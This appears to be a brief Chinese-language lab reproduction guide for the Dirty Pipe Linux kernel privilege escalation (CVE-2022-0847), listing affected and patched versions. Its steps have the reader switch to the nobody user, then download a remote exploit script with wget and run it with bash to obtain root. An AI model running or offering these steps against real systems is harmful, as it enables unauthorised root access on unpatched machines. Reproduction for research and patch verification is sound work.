

# 影响版本
Linux kernel >= 5.8  
The vulnerability was fixed in Linux 5.16.11, 5.15.25 and 5.10.102  

# 漏洞复现
复现环境：kali-2022.1  
复现内核：Linux kali 5.15.0-kali3-amd64 #1 SMP Debian 5.15.15-2kali1 (2022-01-31) x86_64 GNU/Linux  

激活用户nobody：
```
usermod -d /tmp/ -s /usr/bin/dash nobody
passwd nobody
```
切换到用户nobody：
```
su - nobody
```
此时我们是nobody权限的shell，如下图  
  

执行提权脚本
```
wget https://raw.githubusercontent.com/imfiver/CVE-2022-0847/main/Dirty-Pipe.sh
bash ./Dirty-Pipe.sh
```
如下图  
  